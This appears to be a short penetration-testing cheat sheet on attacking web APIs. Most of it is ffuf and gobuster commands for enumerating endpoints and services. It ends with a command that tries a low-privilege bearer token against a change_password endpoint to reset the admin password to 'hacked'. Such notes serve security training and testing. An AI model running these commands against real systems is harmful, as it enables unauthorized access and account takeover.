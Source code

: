 # API Hacking

## Recon

### identify endpoints

* look for version conventions like `/some_service/v1` or v2 or v3 etc.
* Prepare pattern for ffuf to identify api endpoints

```bash

ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://ip/FUZZ/v1/ -mc 200

```

Or use `gobuster`

`gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern`

where pattern is like 

```txt
{GOBUSTER}/v1
{GOBUSTER}/v2
{GOBUSTER}/v3
```

### identify services

Once `endpoint` identifued, look for services


```bash

ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://ip/endpoint_name/v1/FUZZ -mc 200

```

the look for subservices once service_A identified


```bash

ffuf -w /usr/share/seclists/Discovery/Web-Content/common.txt -u https://ip/endpoint_name/v1/service_A/subservice_A1 -mc 200

```

### identify Methods


```bash

ffuf -w test_methods.txt -u https://ip/endpoint_name/v1/user/change_password -X FUZZ -H "Content-Type: application/json" -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJleHAiOjE2NDkyNzE3OTQsImlhdCI6MTY0OTI3MTQ5NCwic3ViIjoib2Zmc2VjIn0.OeZH1rEcrZ5F0QqLb8IHbJI7f9KaRAkrywoaRUAsgA4" \
-d '{"name": "admin", "password": "hacked"}' -fr "error"

# where FUZZ is replaced by POST, PUT, GET methods by using a regular token obtained throughout the session

```

* No error mean that this particular method worked
* particularly here admin password might have been changed